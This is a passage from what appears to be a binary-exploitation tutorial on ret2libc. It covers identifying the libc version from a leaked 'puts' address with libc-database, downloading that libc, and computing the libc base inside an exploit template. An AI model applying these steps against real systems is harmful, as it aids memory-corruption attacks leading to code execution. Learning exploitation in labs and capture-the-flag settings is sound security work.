 - `$ git clone https://github.com/niklasb/libc-database.git`
- `$ cd libc-database`
- `$ ./get`

This will take some time, be patient.\
For this to work we need:

- Libc symbol name: `puts`
- Leaked libc adddress: `0x7ff629878690`

We can figure out which **libc** that is most likely used.

```bash
./find puts 0x7ff629878690
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu11_amd64)
```

We get 2 matches (you should try the second one if the first one is not working). Download the first one:

```bash
./download libc6_2.23-0ubuntu10_amd64
Getting libc6_2.23-0ubuntu10_amd64
  -> Location: http://security.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.23-0ubuntu10_amd64.deb
  -> Downloading package
  -> Extracting package
  -> Package saved to libs/libc6_2.23-0ubuntu10_amd64
```

Copy the libc from `libs/libc6_2.23-0ubuntu10_amd64/libc-2.23.so` to our working directory.

### 3.3- Other functions to leak

```python
puts
printf
__libc_start_main
read
gets
```

## 4- Finding based libc address & exploiting

At this point we should know the libc library used. As we are exploiting a local binary I will use just:`/lib/x86_64-linux-gnu/libc.so.6`

So, at the beginning of `template.py` change the **libc** variable to: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #Set library path when know it`

Giving the **path** to the **libc library** the rest of the **exploit is going to be automatically calculated**.

Inside the `get_addr`function the **base address of libc** is going to be calculated:

```python
if libc != "":
    libc.address = leak - libc.symbols[func_name] #Save libc base
    log.info("libc base @ %s" % hex(libc.address))
```
